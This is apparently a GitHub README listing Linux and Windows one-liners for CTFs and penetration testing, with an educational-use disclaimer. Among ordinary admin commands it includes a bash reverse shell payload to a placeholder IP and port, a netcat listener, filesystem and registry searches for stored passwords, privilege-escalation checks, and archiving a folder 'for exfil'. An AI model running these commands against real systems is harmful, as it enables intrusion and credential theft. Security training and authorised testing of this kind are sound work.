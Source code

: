 # ⚙️ Awesome CMD One-Liners for Linux & Windows

Welcome to my curated collection of powerful one-liners used across CTFs, pentests, and day-to-day cybersecurity tasks. Whether you’re trying to pop a shell, enumerate a box, or just make your workflow smoother, these quick commands will save time and deliver results.

---

## ⚠️ Legal & Ethical Disclaimer

> This repository is **for educational purposes only**.  
> Use these commands only on systems you own or have **explicit permission** to test.  
> I am not responsible for any unauthorized use or damage caused by the misuse of these commands.

---

## 🐧 Linux One-Liners (11)

| Command | Description |
|--------|-------------|
| `find / -perm -4000 2>/dev/null` | 🔍 Find all SUID binaries — great for local privilege escalation |
| `nc -lvnp 4444` | 🦻 Start a listener on port 4444 using Netcat |
| `curl ifconfig.me` | 🌍 Get your public IP address via CLI |
| `grep -r "password" / 2>/dev/null` | 🔑 Hunt for password strings across the filesystem |
| `sudo -l` | 🧯 Check sudo privileges — useful for escalation |
| `ip a` | 📡 View all IP addresses and interfaces |
| `wget http://[IP]/file` | 📥 Download a file from a remote server (HTTP) |
| `scp user@host:/path/to/file .` | 📦 Securely copy a remote file to your system |
| `chmod +x script.sh && ./script.sh` | 🛠️ Make a script executable and run it |
| `echo 'bash -i >& /dev/tcp/IP/PORT 0>&1'` | 🐚 Quick reverse shell payload |
| `tar -cvf archive.tar folder/` | 📁 Archive a folder (useful for exfil or CTF) |

---

## 🪟 Windows One-Liners (4)

| Command | Description |
|--------|-------------|
| `whoami /priv` | 🔐 Display user privileges — great for privilege escalation checks |
| `netstat -ano` | 🌐 View active connections with associated PIDs |
| `type C:\Users\*\Desktop\*.txt` | 📂 Read all `.txt` files on user desktops (CTF classic move) |
| `reg query HKLM /f password /t REG_SZ /s` | 🕵️‍♂️ Search Windows registry for stored plaintext passwords |

---

## 📎 How to Use

- Copy this repo for quick reference
- Memorize or script your favorites
- Expand it with your own daily-use gems!

---

## 🤝 Contributions Welcome!

Have a killer one-liner? Open a pull request and let’s grow this arsenal together.

---

> 🧠 "One good command can save hours of hard work."
